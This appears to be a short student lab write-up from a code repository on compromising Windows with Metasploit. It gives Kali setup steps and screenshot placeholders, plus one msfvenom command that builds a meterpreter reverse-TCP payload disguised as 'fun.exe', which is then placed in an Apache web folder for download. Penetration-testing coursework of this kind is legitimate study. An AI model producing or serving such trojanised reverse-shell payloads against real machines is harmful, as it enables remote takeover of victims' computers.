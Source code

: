 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/13f8a0f8-4657-4262-8969-889a4294fdfa)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/user-attachments/assets/da56f33a-edde-4105-ae85-d386f38b7fdd)

copy the fun.exe into the apache ``/var/www/html``` folder
![image](https://github.com/user-attachments/assets/ce4f6a71-b409-4223-b111-9789adfd506f)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
